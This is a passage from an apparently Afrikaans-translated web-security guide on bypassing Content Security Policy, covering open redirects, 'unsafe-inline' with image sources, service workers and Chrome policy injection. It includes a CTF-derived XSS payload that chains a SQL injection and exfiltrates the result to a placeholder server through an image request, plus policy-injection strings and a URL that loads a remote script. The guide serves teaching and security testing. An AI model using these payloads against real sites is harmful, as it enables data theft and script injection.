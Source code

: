 Met hierdie herleiding, selfs al is die pad heeltemal gespesifiseer, sal dit steeds omseil word.

Daarom is die beste oplossing om te verseker dat die webwerf geen oop herleiding kwesbaarhede het nie en dat daar geen domeine is wat in die CSP-reëls uitgebuit kan word nie.

### Omseil CSP met hangende merkup

Lees [hoe hier](../dangling-markup-html-scriptless-injection/).

### 'unsafe-inline'; img-src \*; via XSS
```
default-src 'self' 'unsafe-inline'; img-src *;
```
`'unsafe-inline'` beteken dat jy enige skrip binne die kode kan uitvoer (XSS kan kode uitvoer) en `img-src *` beteken dat jy enige beeld van enige bron op die webblad kan gebruik.

Jy kan hierdie CSP omseil deur die data via beelde te exfiltreer (in hierdie geval misbruik die XSS 'n CSRF waar 'n bladsy wat deur die bot toeganklik is 'n SQLi bevat, en die vlag via 'n beeld onttrek):
```javascript
<script>
fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new
Image().src='http://PLAYER_SERVER/?'+_)
</script>
```
Van: [https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)

Jy kan ook hierdie konfigurasie misbruik om **javascript kode in 'n beeld in te laai**. As die bladsy byvoorbeeld die laai van beelde van Twitter toelaat. Jy kan **'n spesiale beeld skep**, dit na Twitter **oplaai** en die "**unsafe-inline**" misbruik om **'n JS kode** (soos 'n gewone XSS) uit te voer wat die **beeld** sal **laai**, die **JS** daarvan sal **onttrek** en **dit** sal **uitvoer**: [https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/](https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/)

### Met Dienswerkers

Dienswerkers **`importScripts`** funksie is nie beperk deur CSP nie:

{{#ref}}
../xss-cross-site-scripting/abusing-service-workers.md
{{#endref}}

### Beleid Inspuiting

**Navorsing:** [**https://portswigger.net/research/bypassing-csp-with-policy-injection**](https://portswigger.net/research/bypassing-csp-with-policy-injection)

#### Chrome

As 'n **parameter** wat deur jou gestuur word **binne** die **verklaring** van die **beleid** geplak word, kan jy die **beleid** op 'n manier **verander** wat dit **onbruikbaar** maak. Jy kan **script 'unsafe-inline' toelaat** met enige van hierdie omseilings:
```bash
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```
Omdat hierdie riglyn **bestaande script-src riglyne sal oorskryf**.\
Jy kan 'n voorbeeld hier vind: [http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E](http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+*&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E)
